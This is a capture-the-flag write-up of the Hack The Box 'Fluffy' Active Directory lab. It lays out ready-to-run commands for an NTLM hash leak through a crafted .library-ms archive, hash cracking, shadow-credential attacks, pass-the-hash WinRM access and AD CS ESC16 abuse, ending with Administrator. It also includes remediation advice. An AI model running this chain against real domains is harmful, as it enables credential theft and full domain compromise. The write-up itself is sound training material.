# Fluffy — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | CVE-2025-24071 (NTLM leak via `.library-ms`), BloodHound ACL chaining, shadow credentials, AD CS ESC16 |

---

## TL;DR

Fluffy is an assumed-breach scenario (starting credentials provided)
built around a very recent Windows Explorer spoofing bug and an equally
recent AD CS misconfiguration. A crafted archive triggers an NTLM
authentication leak to a listener, cracking a second user's password.
BloodHound then reveals a chain of ACL abuse — `GenericAll` on a group,
`GenericWrite` on service accounts — that ends in shadow-credential
attacks and an ESC16 certificate-template abuse against the CA,
ultimately minting a certificate that authenticates as Administrator.

---

## Recon

```bash
nmap -sC -sV -p- -T4 10.129.232.88
```



DNS, Kerberos, SMB, LDAP, WinRM — `fluffy.htb`, DC `DC01.fluffy.htb`.

### SMB

With the provided low-privilege credentials (`j.fleischman`), checked
what shares were reachable:

```bash
smbclient -L //10.129.232.88 -N
```



An `IT` share held `Upgrade_Notice.pdf` — an internal memo listing recent
vulnerabilities the IT team was tracking:

```bash
smbclient //10.129.232.88/IT -U j.fleischman
get Upgrade_Notice.pdf
```



Reading operational documents like this is worth doing on every box —
defenders sometimes document their own exposure without realizing it.
The notice referenced **CVE-2025-24071**, a Windows File Explorer
spoofing vulnerability where extracting a ZIP containing a crafted
`.library-ms` file causes an automatic SMB authentication attempt —
leaking the extracting user's NTLM hash.

---

## Foothold / Initial Access

Built the malicious archive with a public PoC, uploaded it to the
writable `IT` share, and started `responder` to capture the resulting
authentication:

```bash
sudo responder -I tun0
python3 exploit.py -i 10.129.232.88
smbclient //10.129.232.88/IT -U j.fleischman
put exploit.zip
```

Another IT user, `p.agila`, extracted the file (as the vulnerability
assumes someone eventually will) and authenticated to my listener:



The captured hash cracked with hashcat against `rockyou.txt`:

```bash
hashcat -m 5600 p.agila.txt /usr/share/wordlists/rockyou.txt
```

Password recovered: `prometheusx-303`.

---

## Privilege Escalation

With a second account, ran BloodHound to map what it could actually
reach:

```bash
bloodhound-python -u p.agila -p 'prometheusx-303' -ns 10.129.232.88 -d fluffy.htb -c all
```



The graph showed `p.agila` belongs to a group with **`GenericAll`** over
a `service accounts` group:



And that group holds **`GenericWrite`** over several service accounts,
including `winrm_svc` and `ca_svc` (a member of Cert Publishers):



`GenericAll` on a group means I can add myself to it; once inside,
`GenericWrite` on an account lets me attach **shadow credentials** — an
alternate authentication key — without needing to know or reset the
account's real password:

```bash
bloodyAD -d fluffy.htb -u p.agila -p prometheusx-303 --host 10.10.11.69 add groupMember 'service accounts' p.agila
certipy-ad shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -account winrm_svc
certipy-ad shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -account ca_svc
```



The `winrm_svc` hash was enough for a shell and the user flag:

```bash
evil-winrm -i 10.129.232.88 -u winrm_svc -H '33bd09dcd697600edf6b3a7af4875767'
```

### ADCS — ESC16

`ca_svc`'s membership in Cert Publishers pointed straight at Active
Directory Certificate Services as the real prize:

```bash
certipy-ad find -u ca_svc@fluffy.htb -hashes <RC4_HASH> -vulnerable -stdout
```



**ESC16** — a misconfiguration where a security extension is globally
disabled on the CA, meaning a certificate's embedded UPN is trusted
without the usual binding check. That makes the attack simple:
temporarily set `ca_svc`'s UPN to `administrator`, request a certificate
as `ca_svc`, and the resulting certificate authenticates as Administrator
instead.

```bash
certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'administrator'
```



```bash
certipy-ad req -u ca_svc -hashes <RC4_HASH> -dc-ip 10.129.232.88 -target dc01.fluffy.htb -ca fluffy-DC01-CA -template User
```



Reverted `ca_svc`'s UPN back to normal (so the change isn't left
dangling), then authenticated with the certificate to get the
Administrator's hash:

```bash
certipy-ad account -u winrm_svc@fluffy.htb -H <RC4_HASH> -user ca_svc -upn ca_svc@fluffy.htb update
certipy-ad auth -dc-ip 10.129.232.88 -pfx administrator.pfx -u administrator -domain fluffy.htb
```



The resulting Administrator hash gave a full WinRM session and the root
flag.

---

## Lessons Learned

- Internal documentation can be an attack roadmap — a memo naming a
  specific CVE handed me the exact exploit to use.
- `GenericAll`/`GenericWrite` on a group is transitive — mapping it
  manually is error-prone; BloodHound's *Outbound Object Control* view
  exists precisely because these chains are easy to miss otherwise.
- Shadow credentials are a quieter alternative to a password reset —
  useful to know both offensively and defensively, since a reset is loud
  and shadow credentials often aren't monitored as closely.
- ESC16 is a CA-wide setting, not a per-template misconfiguration — one
  disabled security extension undermines every template's UPN binding at
  once.

---

## Remediation

- Patch CVE-2025-24071; treat `.library-ms`/similar file types in
  attacker-controlled archives as a real threat.
- Apply least privilege to AD groups — `GenericAll`/`GenericWrite` over
  service-account groups should be audited like Domain Admin membership.
- Re-enable the CA security extension globally and monitor certificate
  requests where a low-privileged account modifies a UPN before
  requesting.

---

## Tools used

- `nmap`
- `smbclient`
- CVE-2025-24071 PoC, `responder`
- `hashcat`
- BloodHound / `bloodhound-python`, `bloodyAD`
- Certipy
- `evil-winrm`

---

**See also:** [Active Directory methodology](../../methodology/active-directory.md)

---

**Machine:** [Hack The Box — Fluffy](https://www.hackthebox.com/machines/fluffy)

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/fluffy/)
